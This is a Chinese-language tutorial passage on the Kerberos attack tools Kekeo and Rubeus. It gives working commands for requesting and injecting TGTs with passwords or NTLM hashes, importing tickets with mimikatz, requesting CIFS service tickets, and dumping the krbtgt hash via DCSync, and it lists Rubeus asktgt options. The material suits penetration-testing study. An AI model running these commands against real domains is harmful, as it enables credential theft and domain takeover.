 ## Kekeo  

Kekeo是一个针对Kerberos协议进行攻击的工具。Kekeo和Mimikatz有两种使用方式，一种是直接运行进入交互式shell，还有一种是例如：Kekeo.exe "xxx"。  
输入任意命令会提示错误，并列举Standard模块的命令；输入aa::bb这样格式的命令会报错，然后提示一些可供选择的模块。  
base64 /input:on和base64 /output:on 是支持base64格式的输出命令，off为不支持，在与rebeus配合利用会用到这个功能。  

### 申请TGT  

/ptt是请求TGT之后并将其导入到内存，如果不这样做就会生成.kirbi后缀的票据。  

```C
tgt::ask /user:administrator /domain:jevon.com /password:passwd /ptt
```

使用hash请求  

```C
tgt::ask /user:administrator /domain:jevon.com /ntlm:asdasdasdasdasdas /ptt
```  

使用mimikatz导入票据  

```C
mimikatz.exe "kerberos::ptt xxxx.kirbi"
```  

### 申请ST  

在这之前已经有TGT票据文件，这里hostname就是主机名，这种形式表示域内主机  

```C
tgt::ask /tgt:xxxxx.kirbi /service:cifs/hostname.jevon.com /ptt
```

由于使用的是CIFS服务，所以无法使用mimikatz的DCSync功能导出域用户的hash，LDAP服务则可以，申请LDAP服务ST之后：  

```C
mimikatz.exe "lsadump::dcsync /domain:jevon.com /user:krbtgt /csv" "exit"
```

## Rubeus  

这个相当于Kekeo的升级版，但和Kekeo、Mimikatz又有点不同  

### 申请TGT  

使用asktgt请求TGT，主要有以下参数  

+ /user:USER
+ /password:PASSWORD[/enctype:DES|RC4|AES128|AES256]
+ /aes256:HASH
+ /domain:DOMAIN
+ /dc:DOMAIN_CONTROLLER
+ /outfile:FILENAME
+ /nowrap 打印出的base64格式票据显示更友好
+ /ptt
  